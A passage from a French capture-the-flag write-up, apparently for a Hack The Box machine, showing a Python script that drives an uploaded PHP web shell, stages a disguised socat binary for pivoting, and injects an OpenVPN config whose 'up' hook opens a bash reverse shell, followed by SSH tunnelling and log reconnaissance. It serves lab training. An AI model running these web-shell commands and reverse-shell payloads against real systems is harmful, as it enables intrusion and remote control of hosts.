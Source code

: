 ```python
commands = "killall -s SIGKILL wget; killall -s SIGKILL socat; mv socat.png socat.xz; unxz socat.xz; chmod +x socat; ./socat TCP-LISTEN:9999,fork,reuseaddr,bind=192.168.122.1 TCP:10.10.10.109:9999 &"
response = sess.get("http://10.10.10.109/sparklays/design/uploads/devloop.php5?cmd=" + quote(commands))
response = sess.get("http://10.10.10.109/sparklays/design/uploads/devloop.php5?cmd=" + quote("ls -al"))
print(response.text)

lines = [
    "remote 192.168.1.245",
    "ifconfig 10.200.0.2 10.200.0.1",
    "dev tun",
    "script-security 2",
    "up \"/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.122.1/9999 0<&1 2>&1&'\"",
    "nobind"
]

ovpn = "\n".join(lines)
sleep(1)
cmd = "wget -O- --post-data='resulturl=192.168.122.4&text={}' 'http://192.168.122.4/vpnconfig.php?function=testvpn'".format(quote(ovpn))
response = sess.get("http://10.10.10.109/sparklays/design/uploads/devloop.php5?cmd=" + quote(cmd))
print(response.status_code)
print(response.text)
```

Pour l'utiliser il faut d'abord ouvrir le port 9999 sur la machine *ubuntu* qui redirigera sur notre port 7777 ouvert sur Kali, lequel écoutera avec *ncat* :  

```bash
ssh -R 9999:127.0.0.1:7777 dave@10.10.10.109
```

BREAKING\_IN
------------

On est reparti pour un tour de scan, cette fois sur ce nouveau réseau. Nmap est présent ce qui facilite grandement la tache. On peut toutefois rapatrier des fichiers vers *DNS* en les téléchargeant depuis *ubuntu* à l'aide de wget (on transite par le dossier *uploads* du serveur web).  

Malheureusement le scan du réseau ne laisse entrevoir aucune machine accessible, ping préalable ou non...  

Une recherche dans les logs pour les mentions du réseau se montre plus fructueuse. Ainsi on a un match dans *auth.log* mais *cat* et *grep* considèrent le fichier comme binaire (sans doute qu'il contient des caractères exotiques).  

```plain
root@DNS:/var/www/DNS# cat /var/log/auth.log | grep -a '192.168.5'
Jul 17 16:49:01 DNS sshd[1912]: Accepted password for dave from 192.168.5.2 port 4444 ssh2
Jul 17 16:49:02 DNS sshd[1943]: Received disconnect from 192.168.5.2 port 4444:11: disconnected by user
Jul 17 16:49:02 DNS sshd[1943]: Disconnected from 192.168.5.2 port 4444
Jul 17 17:21:38 DNS sshd[1560]: Accepted password for dave from 192.168.5.2 port 4444 ssh2
Jul 17 17:21:38 DNS sshd[1590]: Received disconnect from 192.168.5.2 port 4444:11: disconnected by user
Jul 17 17:21:38 DNS sshd[1590]: Disconnected from 192.168.5.2 port 4444
Jul 17 21:58:26 DNS sshd[1171]: Accepted password for dave from 192.168.5.2 port 4444 ssh2
Jul 17 21:58:29 DNS sshd[1249]: Received disconnect from 192.168.5.2 port 4444:11: disconnected by user
Jul 17 21:58:29 DNS sshd[1249]: Disconnected from 192.168.5.2 port 4444
Jul 24 15:06:10 DNS sshd[1466]: Accepted password for dave from 192.168.5.2 port 4444 ssh2
Jul 24 15:06:10 DNS sshd[1496]: Received disconnect from 192.168.5.2 port 4444:11: disconnected by user
Jul 24 15:06:10 DNS sshd[1496]: Disconnected from 192.168.5.2 port 4444
```
